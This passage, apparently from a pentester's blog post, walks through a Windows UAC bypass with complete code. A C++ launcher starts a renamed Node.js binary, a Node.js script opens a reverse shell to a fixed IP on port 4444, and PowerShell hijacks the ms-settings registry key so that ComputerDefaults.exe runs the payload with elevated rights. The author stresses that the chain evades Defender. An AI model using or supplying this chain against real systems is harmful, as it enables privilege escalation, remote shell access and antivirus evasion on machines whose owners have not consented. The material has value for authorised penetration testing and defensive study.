 ```cpp

#include <windows.h>

int main()
{
    WinExec("c:\\users\\public\\n0de.exe c:\\users\\public\\elevationstation.js", 0);
}
```

Compile that and move it to the folder you designated in your powershell `Value` field/parameter.

Next up, I'll explain the Node stuff.  `N0de.exe` is literally the renamed Node.JS binary I downloaded as a portable from the Node.js site.  I always use node for pentest engagements as it's a friendly living off the land binary and seems to remain undetected.  Node then opens this .js file, which is my reverse shell:

```javascript
(function(){
var net = require("net"),
cp = require("child_process"),
sh = cp.spawn("cmd.exe", []);
var client = new net.Socket();
client.connect(4444, "192.168.0.134", function(){
client.pipe(sh.stdin);
sh.stdout.pipe(client);
sh.stderr.pipe(client);
});
return /a/;
})();
```

Bring it all together and you get the following:

![image](https://github.com/user-attachments/assets/c2fa9794-a33a-4b6b-a9c0-b6a7f0b5c7ca)

![image](https://github.com/user-attachments/assets/872b4dcf-94f2-439c-a30c-8df6c75b2101)

Final code:

```powershell
New-Item "HKCU:\software\classes\ms-settings\shell\open\command" -Force
New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "(default)" -Value "../../myfolder/barney.exe" -Force
Start-Process "C:\Windows\System32\ComputerDefaults.exe"
```

And there you have it.  An age old UAC Bypass technique that still works, still bypasses UAC and STILL EVADES DEFENDER!  The irony is it's easier than all the other methods I posted last year.
Think smarter not harder I guess.  Okay, I feel better about this blog post now.  I couldn't sit idly by while folks found this page and were likely immediately disappointed because none of the techniques I shared were still relevent.  Now there's at least one 😙  Until next time!

**Video Proof of Concept:**
